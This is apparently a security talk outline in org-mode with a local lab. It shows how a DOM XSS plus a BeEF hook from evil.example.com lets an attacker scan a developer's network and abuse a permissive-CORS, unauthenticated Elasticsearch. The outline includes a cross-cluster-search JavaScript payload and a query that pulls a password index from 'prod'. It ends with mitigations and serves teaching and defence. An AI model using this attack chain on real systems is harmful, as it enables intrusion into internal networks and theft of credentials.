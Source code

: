 #+TITLE: Exploiting Local Dev Environments
#+DATE: Mallory's Coming For You!
#+AUTHOR: Zach Roof
* Exploiting Local Dev Envs
** Table Of Contents
- [[#exploiting-local-dev-envs][Exploiting Local Dev Envs]]
  - [[#running-locally][Running Locally]]
  - [[#beef][BeEF]]
  - [[#how-does-beef-work][How does BeEF work?]]
  - [[#demo-how-to-find-a-devs-es-instance][Demo: How To Find A Dev's ES Instance]]
  - [[#demo-finding-a-prod-es-instance][Demo: Finding A Prod ES Instance]]
  - [[#demo-finding-a-prod-es-instance-cont][Demo: Finding A Prod ES Instance (CONT.)]]
  - [[#exfiltrating-data][Exfiltrating Data]]
  - [[#demo-cross-cluster-search][Demo: Cross Cluster Search]]
  - [[#demo-searching-the-prod-cluster][Demo: Searching The PROD Cluster]]
  - [[#assumption-recap][Assumption Recap]]
  - [[#mitigations][Mitigations]]
  - [[#knowledge-dependency-tree][Knowledge Dependency Tree]]

** Running Locally
   :PROPERTIES:
   :CUSTOM_ID: h-E21B7A9D-3C3C-40D1-9F1C-E1659ACE6C55
   :END:
+ Update ~/etc/hosts~
  + ~127.0.0.1	evil.example.com~
  + ~127.0.0.1	victim.example.com~
  + ~127.0.0.1	prod.example.com~
+ BeEf Server Credentials
  + Username/Password: ~beefy~
+ Running
  + ~git clone https://github.com/zachroof/community.git~
  + cd $REPO/syntaxcon
  + ~docker-compose up~
    + Be careful, this runs an intentionally vulnerable web application
    + The prod elasticsearch instance will be seeded with data 2 minutes after
      running ~docker-compose up~

** BeEF
- [[https://github.com/beefproject/beef][Browser Exploitation Framework]] (BeEF)
- Creates a browser botnet that can be controlled by a central server
- "BeEF looks past the hardened network perimeter and examines exploitability
  within the context of the one open door: the web browser"
  - What security assumption does this exploit?
    - Our VPN protects our network from the public internet

** How does BeEF work?
1. Bob visits a page with malicious Javascript
   - Ex: Mallory's DOM XSS loaded ~evil.example.com:3000/hook.js~
2. ~hook.js~ interacts with Mallory's Command and Control (C&C) server
3. Through the C&C server, Mallory launches attacks from the victim's browser
   - BeEF allows Mallory to...
     1. Find servers on the victim's local area network (LAN)
        - Including servers listening on ~localhost~
     2. Make REST requests to these servers if CORS isn't strict
     3. Execute arbitrary Javascript payloads within the victim's browser

** Demo: How To Find A Dev's ES Instance
- Leverage BeEF Cross-Origin Scanner Module
- Check for an Elasticsearch (ES) instance running locally with a permissive
  CORS policy
- If ES has a permissive CORS policy, BeEF can
  - Send any type of REST request to the DEV ES instance
    - ES 5.6 Community Edition currently has no authentication built in
      - Includes clustering interface

** Demo: Finding A Prod ES Instance
- Scenario
  - Dev is on VPN
  - VPN contains a Prod ES instance
  - Prod ES instance doesn't allow CORS
    - Its "locked down" so BeEf attacks won't work
    - "Its safe because its on the VPN"
- BeEF Port Scanner Module
  - Uses methods to avoid blocked ports or Same Origin Policy
    - If a server doesn't allow CORS, it can still see if it exists
    - Uses WebSockets, ~<img src="">~ tags, etc.

** Demo: Finding A Prod ES Instance (CONT.)
- Future: Script to scan subnet for hosts
  - Port Scanner module currently scans 1 host at a time
- For simplicity we'll scan ~prod.example.com:9201~
  - Leverage DNS just for easier separation

** Exfiltrating Data
- Due to PROD ES CORS Policy, BeEF can't directly connect...
- How could Mallory exfiltrate data while covering her tracks?
  - Have DEV ES join PROD ES as a cluster member?
  - Leverage /Cross Cluster Search/ to query Prod ES without joining as a
    cluster member
    - No syncing of complete dataset

** Demo: Cross Cluster Search
#+BEGIN_SRC Javascript
  var xhr = new XMLHttpRequest();
  xhr.open('PUT',"http://localhost:9200/_cluster/settings", true);
  xhr.setRequestHeader("Content-type", "application/json");
  xhr.send (JSON.stringify({
    "persistent": {
      "search": {
        "remote": {
          "cluster_one": {
            "seeds": [
              "prod.example.com:9300"
            ]
          }
        }
      }
    }
  }));
#+END_SRC

** Demo: Searching The PROD Cluster
- Pre-seeded with ~sensitive-data~ index with passwords
- Leverage CORS Request Module
  - Will initiate this request on the victim's computer
    - http://localhost:9200/*:sensitive-data/_search?pretty

** Assumption Recap
- How did this all happen?
- DOM XSS allowed Mallory to control the victim's browser
  - "Client-side XSS validation is a bad practice"
- Permissive CORS policy within DEV environment
  - Allowed Mallory to establish a connection with a PROD ES instance
  - "The outside internet cant interact with a process listening on ~localhost~"
- Leveraging CE software with no authentication
  - Allowed Mallory to exfiltrate data out of production ES instance
  - "Our authentication is our VPN"

** Mitigations
- Basic Authentication Proxy
- https://github.com/sscarduzio/elasticsearch-readonlyrest-plugin
- Questioning your assumptions
  - Move from /unknown/ unknowns
    - To /known/ unknowns
- Feedback: zach@securingthestack.com

** Knowledge Dependency Tree
